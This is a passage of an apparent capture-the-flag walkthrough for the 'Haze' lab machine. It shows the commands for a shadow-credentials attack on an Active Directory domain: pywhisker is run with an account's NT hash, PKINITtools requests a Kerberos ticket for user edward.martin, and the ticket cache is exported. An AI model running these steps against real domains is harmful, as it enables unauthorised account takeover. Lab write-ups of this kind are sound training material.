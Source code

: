 DOWNLOAD: <https://github.com/ShutdownRepo/pywhisker>

**-H:**

**This parameter provides the NT hash of the password for the
Haze-IT-Backup\$ account. The -H flag commonly indicates that a password
hash is being used for authentication instead of a plain-text
password.**

**RUN:** **python pywhisker.py -d \"haze.htb\" -u \"Haze-IT-Backup\$\"
-H \' :a70df6599d5eab1502b38f9c1c3fd828\' \--target edward.martin
\--action add**

![](images/media/image37.png){width="6.298611111111111in"
height="1.5972222222222223in"}

**21.** INFO: Use the generated certificate to REQUEST TGT

DOWNLOAD: <https://github.com/dirkjanm/PKINITtools>

**RUN:** **python gettgtpkinit.py -cert-pfx ../OT5uCVNC.pfx -pfx-pass
WhO0d2bAYwH7rqS2NBU8 haze.htb/edward.martin edward.ccache**

![](images/media/image38.png){width="6.298611111111111in"
height="1.3645833333333333in"}

**22.** INFO: Set ENVIRONMENT VARIABLES

**RUN:** **export KRB5CCNAME=/home/kali/Desktop/Machines/Haze\\
VM/edward.ccache**

![](images/media/image39.png){width="3.4881517935258093in"
height="0.2875579615048119in"}
